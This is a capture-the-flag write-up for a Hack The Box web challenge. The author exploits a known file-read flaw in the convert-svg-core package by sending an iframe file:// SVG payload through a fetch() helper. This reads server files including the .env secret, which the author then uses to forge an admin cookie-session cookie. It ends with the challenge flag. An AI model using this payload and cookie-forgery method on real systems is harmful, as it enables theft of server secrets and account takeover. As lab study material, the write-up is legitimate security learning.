## Skills involved: exploiting vuln, recon with directory traversal, session hijacking
Register an account. (While people likely have tried "admin" as the username here, I didn't do that)

After pressing "Export TadPole Samples", the server returned an error with the *stack trace*.

```
TypeError: Cannot read properties of null (reading 'indexOf')
    at Converter.[convert] (/app/node_modules/convert-svg-core/src/Converter.js:191:25)
    at Converter.convert (/app/node_modules/convert-svg-core/src/Converter.js:114:40)
    at API.convert (/app/node_modules/convert-svg-core/src/API.js:80:32)
    at /app/routes/index.js:61:21
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/app/node_modules/express/lib/router/route.js:144:13)
    at Route.dispatch (/app/node_modules/express/lib/router/route.js:114:3)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at /app/node_modules/express/lib/router/index.js:286:22
    at Function.process_params (/app/node_modules/express/lib/router/index.js:348:12)
```

This is very bad as **important information about the source code and dependencies can be leaked**, more specifically:
- The package convert-svg-core is used, and from [Snyk](https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGCORE-1582785) we can confirm that it is susceptible to *directory traveral* attacks, which means that I could access arbitrary file on the system allowed by the program's privilege.
- The error occurred at /app/routes/index.js.

To pull off the vuln, I created a simple helper function. Additionally, I increased the SVG's height to show more content as well as added a white background so that the images can be better viewed across platforms.
```
let doPayload = p => fetch(`/api/export`, {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
  },
  body: JSON.stringify({
      svg: `<svg-dummy></svg-dummy>
<iframe src="file://${p}" width="100%" height="1500px"></iframe>
<svg viewBox="0 0 240 80" height="1000" width="1500" xmlns="http://www.w3.org/2000/svg">
  <rect fill="white" width="100%" height="100%"/>
  <text x="0" y="0" class="Rrrrr" id="demo">data</text>
</svg>`
    }),
  })
  .then((response) => response.json())
  .then((data) => {
    if (data.hasOwnProperty('png')) {
      window.open(data.png);
    }
  })
  .catch((error) => {
    console.log(error);
  });
```

with `doPayload('/app/routes/index.js')` I got the page source code: (image cropped)
![image](https://user-images.githubusercontent.com/26480299/169437385-b7141003-e35e-4335-ae6f-741fabd101cf.png)

The following files was also checked:
- /app/package.json
- /app/index.js
- /app/database.js
- /app/.env

From that I learnt that:
- `Cookie-parser` is used.
- the key used in cookie-parser
- the admin name is indeed, "admin"

Cookie-parser stores both the session content and the cookie signature client-side, usually this is okay as long as **the server key is kept secret**. In practice, usually session data is stored at server-side with `express-session` can cannot be directly tampered client side.

![image](https://user-images.githubusercontent.com/26480299/169439066-b221f8d8-56e5-4f77-88a6-25e8363ebae6.png)
```
> atob("eyJ1c2VybmFtZSI6InRlc3QifQ==")
< '{"username":"test"}'
```

We can impersonate admin with the leaked key. I re-created a local docker environment and created the admin session cookie.
```
const express      = require('express');
const session      = require('cookie-session');
const app          = express();
const cookieParser  = require('cookie-parser');
const nunjucks     = require('nunjucks');

app.use(express.json({limit: '2mb'}));
app.use(cookieParser());

require('dotenv').config({path: '/app/.env'})
app.use(session({
  name: 'session',
  keys: [process.env.SESSION_SECRET_KEY]
}))

nunjucks.configure('views', {
  autoescape: true,
  express: app
});

app.all('*', (req, res) => {
  req.session.username = 'admin';

  return res.status(200).send({
    message: 'auth success'
  });
});

(async () => {
  app.listen(1337, '0.0.0.0', () => console.log('Listening on port 1337'));
})();
```
Finally, I logged out, changed the cookies and visited `/dashboard`
![image](https://user-images.githubusercontent.com/26480299/169443927-b968b500-ed3e-47ec-8a1c-7d1ad0a8b033.png)

**Flag: HTB{fr4m3d_th3_s3cr37s_f0rg3d_th3_entrY}**

Remark: Someone has suggested that [Cookie Monster](https://www.npmjs.com/package/@digital-interruption/cookie-monster) can also be used but I haven't tried that.
